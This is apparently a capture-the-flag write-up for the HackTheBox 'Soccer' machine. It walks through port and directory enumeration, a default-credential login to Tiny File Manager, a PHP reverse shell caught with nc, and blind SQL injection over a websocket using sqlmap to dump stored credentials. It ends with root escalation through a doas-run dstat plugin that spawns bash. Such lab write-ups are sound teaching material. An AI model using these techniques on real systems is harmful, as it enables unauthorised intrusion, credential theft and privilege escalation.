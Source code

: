 # easy - Soccer

# Table of Content

- [easy - Soccer](#easy---soccer)
- [Table of Content](#table-of-content)
- [Content](#content)
  - [Finding user flag](#finding-user-flag)
  - [Finding root flag](#finding-root-flag)

# Content

## Finding user flag

At first glance, a web page is found:

![simple web page](/i/2023-02-24_12-22.png)

Something interesting found during nmap scanning:

```.../content/infosec/htb» sudo nmap --open --min-rate 5000 -T4 -Pn -p- soccer.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-12 23:28 -04
Nmap scan report for soccer.htb (10.129.20.182)
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
Nmap done: 1 IP address (1 host up) scanned in 15.46 seconds
```

That 9091 port seems to have a vulnerability, while checking that I've got distracted with this enumeration:

```bash
» gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 50 -u http://soccer.htb/ -b 403,404
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://soccer.htb/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirb/wordlists/big.txt
[+] Negative Status codes:   404,403
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/12 23:38:02 Starting gobuster in directory enumeration mode
===============================================================
/tiny                 (Status: 301) [Size: 178] [--> http://soccer.htb/tiny/]
Progress: 20387 / 20470 (99.59%)
===============================================================
2023/01/12 23:39:09 Finished
===============================================================
```

This tiny is a filemanager framework, the first page asks for a user & password, the default ones work!: https://github.com/prasathmani/tinyfilemanager

> Default username/password: **admin/admin@123** and **user/12345**.

![tiny filemanager](/i/2023-02-26_21-27.png)

A quick googling of **Tiny File Manager 2.4.3** lead me to this url: https://github.com/febinrev/tinyfilemanager-2.4.3-exploit

So I just need to upload a PHP Shell file. Most directories arent' writtable except this one: **Destination Folder: /var/www/html/tiny/uploads**

I was able to get a reverse shell with php:

```bash
~» sudo nc -lvvp 55555
[sudo] password for n0kt:
Listening on any address 55555
Connection from 10.129.170.56:43156
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 01:42:32 up 19 min,  0 users,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After looking around I've found this nginx config:

```bash
www-data@soccer:/etc/nginx$ cat sites-enabled/*
cat sites-enabled/*
server {
        listen 80;
        listen [::]:80;
        server_name 0.0.0.0;
        return 301 http://soccer.htb$request_uri;
}

server {
        listen 80;
        listen [::]:80;

        server_name soccer.htb;

        root /var/www/html;
        index index.html tinyfilemanager.php;

        location / {
               try_files $uri $uri/ =404;
        }

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.4-fpm.sock;
        }

        location ~ /\.ht {
                deny all;
        }

}


server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

I've ran same scannign than before:

```bash
» gobuster dir -w /usr/share/dirb/wordlists/big.txt -t 50 -u http://soc-player.soccer.htb/ -b 403,404
...

/Login                (Status: 200) [Size: 3307]
/check                (Status: 200) [Size: 31]
/css                  (Status: 301) [Size: 173] [--> /css/]
/img                  (Status: 301) [Size: 173] [--> /img/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 3307]
/logout               (Status: 302) [Size: 23] [--> /]
/match                (Status: 200) [Size: 10078]
/signup               (Status: 200) [Size: 3741]
```

No other option to sign-up and login, after that we can see there is a websocket web interface which is vulnerable to Blind SQL Injection:

![ws vuln to blind sqli](/i/2023-02-26_22-05.png)

People recommended to follow this article where it is explained how to run `sqlmap` with a proxied websocket with python: https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html

From the python proxy script I've just modified two lines:

1. `ws_server = "ws://soc-player.soccer.htb:9091"` websocker url
2. the data payload: `data = '{"id":"%s"}' % message`

Then I ran the python script and executed sqlmap:

```bash
» python proxy.py
» sqlmap -u "http://127.0.0.1:8081/?id=1" -p id --dbs 
...
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys


» sqlmap -u "http://127.0.0.1:8081/?id=1" --dump -D soccer_db -T accounts
...
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

And got ssh access out of that info:

```bash
player@soccer:~$ id
uid=1001(player) gid=1001(player) groups=1001(player)
player@soccer:~$ ls
user.txt
```

## Finding root flag


No `sudo` issues found for escalations, but a suid classic issue:

```bash
player@soccer:~$ sudo -l
[sudo] password for player:
Sorry, user player may not run sudo on localhost.
player@soccer:~$ find / -perm -u=s -type f 2>/dev/null
/usr/local/bin/doas
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
...

player@soccer:~$ ls -ltra /usr/local/bin/doas
-rwsr-xr-x 1 root root 42224 Nov 17 09:09 /usr/local/bin/doas
```

Then write a simple dstat module:

```bash
player@soccer:~$ vim /usr/local/share/dstat/dstat_foo.py
player@soccer:~$ doas /usr/bin/dstat --foo
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
root@soccer:/home/player# id
uid=0(root) gid=0(root) groups=0(root)
```

The py content of dstat_foo.py is just:

```python
import os
os.system("bash -i")
```
